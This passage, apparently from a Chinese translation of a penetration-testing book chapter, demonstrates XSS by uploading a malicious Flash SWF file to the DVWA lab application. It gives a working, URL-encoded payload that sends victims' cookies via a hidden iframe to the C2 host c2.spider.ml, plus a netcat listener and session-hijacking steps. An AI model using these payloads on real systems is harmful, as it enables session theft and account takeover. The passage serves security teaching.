我们不必是 Flash 开发者就能理解这里发生了什么。这个 AS 代码简单地将主代码包装在 `try`-`catch` 块中，以便更清晰地执行，使用 `root.loaderInfo.parameters` 对象从 `GET` 请求中获取 `js` 参数，并将内容传递给 Flash 插件（通过 `ExternalInterface`）以便在浏览器内执行。

让我们继续使用应用程序的文件上传功能上传 XSSProject SWF 恶意文件。您可能需要将 DVWA 难度设置为`low`，以允许非图像文件上传。以下图显示了 XSSProject 恶意软件在熟悉目录中成功上传的情况：



图 5.11：XSSProject 恶意软件成功上传

要使 Flash 文件在浏览器中执行 JavaScript 代码，我们可以直接调用它，并通过 `js` 参数传入任意代码，就像这样：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?**js=[javascript code]**

```

作为**概念验证**（**POC**），我们可以显示 PHP 会话 cookie，但在实际攻击中，我们希望悄悄地外泄这些数据，并显示一个良性的错误消息或将受害者发送回主页。对于 POC，我们可以调用 `alert()` JavaScript 函数，并显示在特定页面上设置的 cookies 的值。在这种情况下，DVWA 的登录 cookie，`PHPSESSID`，应该在弹出窗口中显示。

要测试 POC，我们可以调用以下 URL 并观察浏览器行为：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?js=alert(document.cookie);
```

我们可以使用此 URL 对易受攻击应用程序的用户执行 XSS 攻击。我们可以注入更有用的 JavaScript 代码，例如**浏览器利用框架**（**BeEF**）钩子，而不是弹出窗口来证明漏洞的存在。我们将在第九章 *实用客户端攻击*中讨论此工具。

以下图显示了 JavaScript 代码被恶意软件（`xssproject.swf`）成功注入：



图 5.12：滥用文件上传功能后的 XSS 攻击

对于利用漏洞的更实际应用，我们可以尝试悄悄地外泄 cookie 数据，并可能使用 `PHPSESSID` 值在我们自己的浏览器会话中冒充用户。我们可以获取 cookie 数据，使用 JavaScript 的 `btoa()` 函数对其进行 Base64 编码，并将所有数据发送到我们的 C2 服务器。一旦收集到 cookie 数据，我们可以强制重定向到主应用程序页面，以避免引起怀疑。数据外泄部分对受害者是透明的。

此有效载荷将使用 `document` 对象将新的 HTML 代码写入**文档对象模型**（**DOM**）。HTML 代码是一个隐藏的 `iframe` 元素，它会向我们的命令和控制基础设施发出 HTTP 请求。HTTP 请求将在请求 URL 中包含受害者的 cookies，以 Base64 编码的形式，使我们能够远程捕获这些数据。最后一个函数将在 500 毫秒后重定向客户端到主页 `'/'`，以确保 `iframe` 有机会加载和外泄我们的数据。

我们的攻击代码将如下所示：

```
document.write("Loading**...<iframe style='display:none;' src='//c2.spider.ml/"+btoa(document.cookie)+"'></iframe>**");
setTimeout(function(){window.location.href='/';},500);
```

前面的 JavaScript 代码将被压缩为一行，用分号分隔，因为我们必须使用 URL 来注入此代码，所以我们还必须对字符进行 URL 编码，以确保在传输过程中没有问题。Burp 的解码器模块可以用于编码和混淆负载：



图 5.13：使用 Burp 的解码器模块对 JavaScript 负载进行 URL 编码

所有字符都将转换为它们的十六进制等价物，并在前面加上百分号（`%`），混淆攻击代码并确保它在受害者端成功执行。包含编码负载的 URL 看起来像这样：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?js=**%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%22%4c%6f%61%64%69%6e%67%2e%2e%2e%3c%69%66%72%61%6d%65%20%73%74%79%6c%65%3d%27%64%69%73%70%6c%61%79%3a%6e%6f%6e%65%3b%27%20%73%72%63%3d%27%2f%2f%63%32%2e%73%70%69%64%65%72%2e%6d%6c%2f%22%2b%62%74%6f%61%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%2b%22%27%3e%3c%2f%69%66%72%61%6d%65%3e%22%29%3b%73%65%74%54%69%6d%65%6f%75%74%28%66%75%6e%63%74%69%6f%6e%28%29%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%3d%27%2f%27%3b%7d%2c%35%30%30%29%3b**

```

一旦受害者跟随前面的恶意链接，我们应该能够看到请求进入`c2.spider.ml`并从`GET`请求中获取编码的 cookie 值。为了实现这一点，我们可以使用 netcat（`nc`）应用程序在端口`80`上设置监听器。Netcat 是攻击者的瑞士军刀，可以做的远不止成为一个简单的服务器，但对于我们的目的，这应该足够了。

我们可以使用以下开关调用`nc`二进制文件：`-l`用于启动监听器，`-v`用于显示详细信息，`-p`用于指定端口`80`作为监听端口：

```
**root@spider-c2-1:~# nc -lvp 80**
**listening on [any] 80 ...**
**connect to [10.0.0.4] from 11.25.198.51 59197**

```

当服务器准备好接收来自受害者的连接时，我们可以开始我们的攻击，并等待用户点击我们恶意的 URL：

```
GET /**UEhQU0VTU0lEPXBhdGxrbms4bm5ndGgzcmFpNjJrYXYyc283OyBzZWN1cml0eT1oaWdo**
HTTP/1.1
Host: c2.spider.ml
Connection: keep-alive
Upgrade-Insecure-Requests: 1
[...]
```

`GET` URL 是一个包含被窃取的 cookie 数据的 Base64 编码值。我们可以通过使用`base64` Linux 命令和`-d`开关解码内容来确认这一点：

```
**root@spider-c2-1:~# echo "UEhQU0VTU0lEPXBhdGxrbms4bm5ndGgzcmFpNjJrYXYyc283OyBzZWN1cml0eT1oaWdo" | base64 -d PHPSESSID=patlknk8nngth3rai62kav2so7; security=low**

```

成功！有了会话 ID，我们可以冒充受害者并接管账户。

我们也可以尝试上传 HTML 或 HTM 文件，这可能会实现相同的效果；然而，这些扩展名更有可能在应用程序中被列入黑名单。开发人员可能会忘记 Flash 提供了一个用于执行 JavaScript 和 SWF 文件的 API，因此 SWF 文件有时可能会悄悄地通过。

文件上传也可以被滥用来在评估期间存储恶意负载。应用服务器可以被转变为简单的 C2 服务器，以逃避窥探的蓝队眼睛。Linux/Unix 操作系统通常不会安装防病毒软件，恶意的 Windows 二进制文件或 Meterpreter 负载可以被存储在毫无戒心的服务器上。

# 摘要

在本章中，我们探讨了几种利用应用程序底层文件系统的方法。我们能够使用文件包含获得代码执行，甚至利用我们自己引入的 XSS 漏洞攻击客户端。

应用程序开发框架正在成熟，幸运的是，一些甚至认真对待安全性。如前所述，安全性和可用性之间总会存在一个权衡。一个文件共享站点可以完全安全，但如果只允许少量扩展名，那就不太可用。这是我们作为攻击者可以利用以获取利润的一个弱点。

在下一章中，我们将讨论应用漏洞的带外发现和利用。
